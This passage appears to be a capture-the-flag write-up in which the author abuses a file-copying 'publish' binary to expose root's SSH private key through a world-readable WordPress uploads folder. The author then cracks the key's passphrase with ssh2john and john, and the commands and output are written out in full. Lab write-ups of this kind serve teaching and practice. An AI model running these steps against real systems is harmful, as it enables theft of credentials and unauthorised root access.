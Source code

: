 * But  when i run the ```./publish binary``` it can run without any issue. And it copy file from the input folder to the /var/www/html/myblog/wp-content/uploads direcory.
```code
carlos@researcher:/opt$ ./publish
Please input the location of the reports (defaut: /opt/carlos-research) :
Files from /opt/carlos-research have been copied to /var/www/html/myblog/wp-content/uploads ane are now globally redable
carlos@researcher:/opt$ 
```

* So we try to read the ```/root/.ssh``` directory
```code
carlos@researcher:/opt$ ./publish
Please input the location of the reports (defaut: /opt/carlos-research) :/root/.ssh 
Files from /root/.ssh have been copied to /var/www/html/myblog/wp-content/uploads ane are now globally redable

```

* Now we can read the root id_rsa file to the ```/var/www/html/myblog/wp-content/uploads``` directory
```code
carlos@researcher:/var/www/html/myblog/wp-content/uploads$ ls -al
total 36
drwxrwxrwx 3 www-data www-data 4096 Dec  4 13:47 .
drwxr-xr-x 5 www-data www-data 4096 Dec  4 12:46 ..
drwxr-xr-x 4 www-data www-data 4096 Dec  4 12:29 2024
-rw-r--r-- 1 root     carlos    741 Dec  4 13:47 authorized_keys
-rw-r--r-- 1 www-data www-data 1937 Dec  4 13:36 earth.txt
-rw-r--r-- 1 root     carlos   3326 Dec  4 13:47 id_rsa
-rw-r--r-- 1 root     carlos    741 Dec  4 13:47 id_rsa.pub
-rw-r--r-- 1 www-data www-data 2352 Dec  4 13:36 jupiter.txt
-rw-r--r-- 1 www-data www-data 1692 Dec  4 13:36 sun.txt
carlos@researcher:/var/www/html/myblog/wp-content/uploads$ 

```

* Now, save the id_rsa file in the attacker system and give the file the sufficient permission to the file.
* Now, we need to crack the passphrase of the ssh key. For that first we need to generate the file to john format
```code
┌──(kali㉿kali)-[~]
└─$ ssh2john id_rsa2 > hash
```

* Now, we need to crach the passphrase of the file using john
```code
┌──(kali㉿kali)-[~]
└─$ john hash -format=ssh -w /usr/share/wordlists/rockyou.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
santiago         (id_rsa2)     
1g 0:00:00:00 DONE (2024-12-04 19:59) 100.0g/s 217600p/s 217600c/s 217600C/s love123..santiago
Use the "--show" option to display all of the cracked passwords reliably
Session completed.   
```
